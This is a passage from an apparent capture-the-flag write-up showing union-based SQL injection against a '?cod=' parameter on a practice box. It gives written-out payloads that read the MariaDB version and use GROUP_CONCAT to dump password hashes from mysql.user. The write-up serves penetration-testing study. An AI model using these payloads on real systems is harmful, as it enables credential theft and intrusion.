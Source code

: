Trigger

- Nr: 2 = Room-Name
- Nr: 3 = Price
- Nr: 4 = Description
- Nr: 5 = Ranking

### MySQL SQL Injection Cheat Sheet [🔗](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

- ?cod=999 union select 1,2,(**SELECT @@version**),4,5,6,7

We can add queries in the union operator like Version : `SELECT @@version`

![Untitled](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled%204.png)

Version: 10.1.37 - MariaDB -0+deb9u1

**Operator - [GROUP_CONCAT](https://www.educative.io/edpresso/what-is-the-groupconcat-function-in-mysql)** 

<aside>
💡 GROUP_CONCAT is a function which **concatenates/merges the data from multiple rows into one field**. It is a GROUP BY function which returns a string if the group contains at least 1 non-null value, if it does not, it returns a Null value.

</aside>

Look at [🔗](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) we see: 

> List Password Hashes: `SELECT host, user, password FROM mysql.user`
> 

This dont work, the GROUP_CONCAT Operator is needed ! 

- ?cod=999 union select 1,2,(SELECT group_concat(host, user, password) FROM mysql.user),4,5,6,7
